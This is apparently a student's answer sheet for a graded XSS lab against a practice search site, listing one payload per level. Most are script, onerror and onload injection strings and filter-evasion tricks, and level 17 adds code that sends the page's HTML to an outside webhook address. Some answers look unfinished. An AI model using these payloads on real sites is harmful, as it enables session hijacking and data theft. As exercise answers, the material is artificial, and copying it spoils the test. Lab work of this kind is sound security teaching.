 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)


TODO:``` (<script>success()</script>)``` 

  
# 2. No Script Allowed (3 points)


TODO:```</script><script>success()</script>``` 


# 3. One More Time, Like You Mean It (3 points)


TODO: ``` <img src onerror="alert('You are Rashad:D')"> or``` 

# 4. An Open-and-Shut Case (3 points)


TODO:```  <ScRiPt>success()</sCriPt>``` 

# 5. Time to Mix Things Up (3 points)


TODO: ``` <ScRiPt>success()</sCriPt>``` 

# 6. A Picture is Worth a Thousand Words (3 points)

 
TODO: ```<image src =q onerror=success()>``` 
 
# 7. Between a Rock And a Hard Place (3 points)


TODO:``` <iframe src=# onmouseover="success(document.cookie)"></iframe> or <button onClick="success()">Göndər</button>``` 

# 8. Angle of Death (6 points)

Attack input:


TODO:```  <<script>>success()</script> ``` 


Server code:

js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})


# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)


TODO: ``` <iframe"<svg onload=alert()>"> or``` 


# 11. You Can't Win 'em All (6 points)

Attack input:


TODO: ``` "" false = "success ()"``` 


Server code:

js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})


# 12. When All is Said and Done (6 points)

Attack input:


TODO: ``` '><script>alert();</script> or ``` 

Server code:

js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})


# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:


TODO: ```" onload=alert(1) --- http://caloogle.xyz:4140/search?q=bdhehegdhg&lang=en%20onload=success()``` 

# 15. The Early Bird Catches the Worm (3 points)


TODO: ``` </script> <img src=/ onerror=success() /> <script>``` 
  
# 16. Tying Up Loose Ends (3 points)


TODO: ``` <<<///scrip<<//script>>t>>><img src =q onerror=success()>``` 

# 17. Take a Page Out of Their Book (6 points)

Attack code:

js
// TODO:```  function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}
send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')``` 

# 18. Congrats

N/A

# Əlavə qeydlər


Əlavə qeydlərinizi yazın